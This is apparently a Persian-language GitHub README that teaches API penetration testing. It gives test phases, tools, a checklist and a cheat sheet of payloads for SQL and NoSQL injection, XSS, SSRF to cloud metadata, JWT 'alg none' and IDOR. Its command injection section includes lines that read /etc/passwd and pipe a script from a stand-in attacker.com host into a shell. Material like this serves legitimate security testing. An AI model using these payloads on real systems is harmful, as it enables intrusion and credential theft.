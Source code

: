 # api


مراحل کلی تست نفوذ API
شناسایی و مستندسازی API

پیدا کردن endpointها با استفاده از:

مستندات رسمی (Swagger, Postman)

ابزارهای تست (Burp Suite, OWASP ZAP)

فایل‌های لو رفته (swagger.json, openapi.json)

Reverse Engineering اپلیکیشن یا PWA

شناسایی متدها (GET, POST, PUT, DELETE, PATCH) و پارامترها.

بررسی احراز هویت و مجوز (Auth & Access Control)

تست توکن‌ها (JWT, API Key)

تست Broken Authentication (ورود بدون رمز، JWT بدون امضا)

تست Broken Access Control (IDOR: تغییر user_id و دسترسی به داده دیگران)

تست اعتبارسنجی ورودی‌ها

بررسی ورودی‌ها برای XSS، SQLi، NoSQLi، Command Injection، SSRF.

استفاده از payload های مناسب هر آسیب‌پذیری.

تست منطق بیزینسی (Logical flaws)

دور زدن محدودیت‌ها (Rate Limit Bypass، تغییر قیمت کالا، دوبار انجام تراکنش)

تست ترتیب درخواست‌ها (Race Conditions)

تست امنیت انتقال داده‌ها

اطمینان از استفاده از HTTPS

بررسی برای Sensitive Data Exposure

ابزارهای مفید

Postman / Insomnia (برای درخواست‌های دستی)

Burp Suite / OWASP ZAP (برای رهگیری و تزریق)

ffuf / wfuzz (برای brute-force روی پارامترها و endpointها)

nuclei (برای اسکن خودکار API)


======================================================================


نمونه پیلودها برای تست نفوذ API
1. SQL Injection

```
' OR 1=1 --
" OR "1"="1
1') UNION SELECT null,null,null--
```
نمونه تست در پارامتر:

```
POST /api/user
{"id": "' OR 1=1 --"}
```

2. NoSQL Injection (MongoDB)

```
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
```

4. XSS (برای APIهایی که خروجی HTML دارند)

```
<script>alert(1)</script>
"><img src=x onerror=alert(1)>
```

4. Command Injection

```
; cat /etc/passwd
&& ping -c 1 attacker.com
| curl http://attacker.com/shell.sh | sh
```

5. SSRF

```
{"url": "http://127.0.0.1:8080/admin"}
{"url": "file:///etc/passwd"}
{"url": "http://169.254.169.254/latest/meta-data/"} // AWS metadata
```

6. JWT Manipulation
حذف امضا یا تغییر الگوریتم:

```
{"alg": "none", "typ": "JWT"}
```
تغییر payload:

```
{"role": "admin"}
```

7. IDOR (Insecure Direct Object Reference)
تغییر شناسه در URL یا Body:

```
GET /api/user/123
GET /api/user/124   // باید داده کاربر دیگر نمایش داده نشود
```

8. Rate Limit Bypass
ارسال تعداد زیادی درخواست پشت سر هم با:

```
ffuf -u https://target/api/send_otp -w phone_numbers.txt
```

=================================================================

# چک‌لیست تست نفوذ API (نسخه ۲۰۲۵)

## 1. شناسایی (Recon & Fuzzing)
- [ ] اجرای fuzzing روی مسیرها، پارامترها، هدرها برای کشف endpointهای مخفی
- [ ] تست پروتکل‌های غیراستاندارد (HTTP روی پورت ۸۰)
- [ ] استفاده از OPTIONS برای شناسایی متدهای مجاز
- [ ] تغییر نسخه API در مسیر (`/api/v1/endpoint` → `/api/v2/endpoint`)

## 2. احراز هویت (Authentication)
- [ ] تست User Enumeration و Brute-Force
- [ ] تست Credential Stuffing
- [ ] بررسی مکانیزم قفل حساب / CAPTCHA
- [ ] تست ریست‌پسورد بدون محافظت کافی

## 3. کنترل دسترسی (Authorization / IDOR)
- [ ] تست IDOR با تغییر شناسه‌ها در URL و Body
- [ ] تست افزایش سطح دسترسی عمودی (Vertical Privilege Escalation)
- [ ] تست افزایش سطح دسترسی افقی (Horizontal Privilege Escalation)

## 4. منطق تجاری (Business Logic Flaws)
- [ ] تست دور زدن Rate Limiting با تغییر هدر `X-Forwarded-For`
- [ ] دستکاری قیمت یا تخفیف (`price: -999`)
- [ ] تست مقادیر بسیار بزرگ یا غیرمنتظره
- [ ] تست چندبار استفاده از کوپن یا تراکنش دوباره (Race Conditions)

## 5. آسیب‌پذیری‌های کلاسیک
- [ ] SQL Injection / NoSQL Injection
- [ ] XSS (در خروجی HTML)
- [ ] SSRF
- [ ] Command Injection
- [ ] تست عدم اعتبارسنجی ورودی
- [ ] بررسی HTTPS و هدرهای امنیتی (HSTS)

## 6. افشای داده (Sensitive Data Exposure)
- [ ] تست محدودیت نرخ (Rate Limiting)
- [ ] تست افشای PII یا توکن‌ها در پاسخ‌ها یا خطاها

## 7. گزارش‌دهی و بازآزمایی
- [ ] تهیه گزارش با سطح خطر، نحوه رفع، و وضعیت Retest
- [ ] اولویت‌بندی آسیب‌ها بر اساس شدت و پیچیدگی

## 8. نظارت مستمر
- [ ] پیاده‌سازی Runtime API Protection
- [ ] پایش حملات سرریز، رفتار نابهنجار یا تهدیدات نوظهور

---

# پیلودهای رایج ۲۰۲۵ (بر اساس گزارش هانترها)

## 1. SQL Injection
```sql
' OR 1=1 --
" OR "1"="1
1') UNION SELECT null,null,null--


==================================================================


Testing Tool visits Now

https://securitytoolkits.com/tools/api-key-tester

========================================================
